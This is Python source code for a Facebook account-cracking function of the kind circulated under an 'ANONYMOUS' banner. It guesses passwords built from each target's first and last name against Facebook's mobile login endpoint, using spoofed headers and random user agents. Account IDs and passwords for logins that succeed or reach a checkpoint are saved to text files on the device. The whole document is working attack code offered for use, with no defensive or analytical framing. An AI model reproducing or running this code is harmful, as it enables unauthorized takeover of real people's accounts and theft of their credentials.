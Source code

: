 def m3(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [\033[1;32mANONYMOUS] \033[1;36m•\033[1;37m %s \033[1;36m•\033[1;37m OK \033[1;36m•\033[1;37m [\033[1;32m%s\033[1;37m]'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'ANONYMOUS'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
               	        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'm.facebook.com', 'viewport-width': '980',  'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="101", "Google Chrome";v="101"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'same-origin', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mbasic.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Fof=session.cookies.get_dict().keys()
                        if "c_user" in Fof:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [\033[1;32mANONYMOUS\033[1;36m•\033[1;37m\033[1;32mOK] %s \033[1;36m•\033[1;37m\033[1;32m %s'%(ids,pas))
                                #cek_apk(session,coki)
                                #print(f'\033[1;36m [Cookie]\033[1;37m : '+coki)
                                open(f'/sdcard/ANONYMOUS•OK•M3.txt', 'a').write(ids+'|'+pas+'\n')
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Fof:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;208m [ANONYMOUS•CP] '+ids+' • '+pas+'\033[1;97m')
                                        open(f'/sdcard/ANONYMOUS•CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1
